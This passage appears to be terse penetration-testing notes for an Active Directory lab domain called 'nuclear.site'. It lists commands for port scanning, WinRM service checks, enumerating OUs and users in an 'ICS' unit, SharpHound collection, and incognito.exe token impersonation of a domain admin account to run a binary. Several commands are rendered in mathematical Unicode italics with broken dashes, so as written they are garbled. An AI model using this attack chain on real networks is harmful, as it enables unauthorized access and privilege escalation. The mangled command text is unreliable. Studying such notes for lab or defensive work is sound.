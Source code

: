 ```text
https://github.com/sperner/PowerShell/blob/master/PortScan.ps1
.\PortScan.ps1
.\PortScan.ps1 10.10.10.10 1 10000
```

## Service identification with Test-WSMan

```text
PS> Test-WSMan -ComputerName <COMPUTERNAME> -Port 6666
```

## Enumerate OU’s 

```
𝐺𝑒𝑡 − 𝑁𝑒𝑡𝑂𝑈 − 𝑣𝑒𝑟𝑏𝑜𝑠𝑒
```

## Retrieve users in ‘ICS’ OU

```
𝐺𝑒𝑡 − 𝐷𝑜𝑚𝑎𝑖𝑛𝑈𝑠𝑒𝑟 − 𝑆𝑒𝑎𝑟𝑐ℎ𝐵𝑎𝑠𝑒 "𝐿𝐷𝐴𝑃://𝑂𝑈 = 𝐼𝐶𝑆,𝐷𝐶 = 𝑛𝑢𝑐𝑙𝑒𝑎𝑟,𝐷𝐶 = 𝑠𝑖𝑡𝑒" − 𝑉𝑒𝑟𝑏𝑜𝑠𝑒
```

## SharpHound Collect

```
SharpHound.exe --CollectionMethod all
```

## Impersonate Token of nuclear\vdadmin (on psexec session)

```
𝑖𝑛𝑐𝑜𝑔𝑛𝑖𝑡𝑜. 𝑒𝑥𝑒 𝑙𝑖𝑠𝑡_𝑡𝑜𝑘𝑒𝑛𝑠 −u 
𝑖𝑛𝑐𝑜𝑔𝑛𝑖𝑡𝑜. 𝑒𝑥𝑒 𝑒𝑥𝑒𝑐𝑢𝑡𝑒 − 𝑐 "𝑁𝑈𝐶𝐿𝐸𝐴𝑅\𝑣𝑑𝑎𝑑𝑚𝑖𝑛" 𝐶:\𝑈𝑠𝑒𝑟𝑠\𝑃𝑢𝑏𝑙𝑖𝑐\𝑏𝑖𝑛𝑎𝑟𝑦.𝑒𝑥e
```